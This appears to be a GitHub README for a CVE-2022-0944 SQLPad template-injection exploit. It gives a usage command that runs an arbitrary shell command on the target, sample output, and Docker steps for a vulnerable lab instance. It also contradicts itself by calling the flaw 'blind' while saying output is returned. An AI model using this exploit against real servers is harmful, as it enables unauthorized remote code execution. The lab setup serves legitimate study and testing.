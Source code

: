 # CVE-2022-0944
SQLPad - Template injection

This is a blind vulnerability, meaning that the output is directly returned in the response.

## Exploit
Use the script with the following command:  
`python3 exploit.py --url http://localhost:13000 --command 'ls -la > /tmp/test' --username admin --password password`

### Output
```
[*] Login was successfull
[*] Exploited!
```

## Testing environment
Using docker:
- Start the docker container - `sudo docker run -p 13000:3000 -d --env SQLPAD_ADMIN=admin --env SQLPAD_ADMIN_PASSWORD=password --name vulnerable-sqlpad sqlpad/sqlpad:6.10.0`
- Connect to the docker container - `sudo docker exec -it vulnerable-sqlpad /bin/bash`

To access the web interface, use URL `http://localhost:13000` with credentials `admin:password`.

## Affected versions
<= 6.10.0

## Source
https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb

## Disclaimer
Use only for educational purposes or CTF challenges.
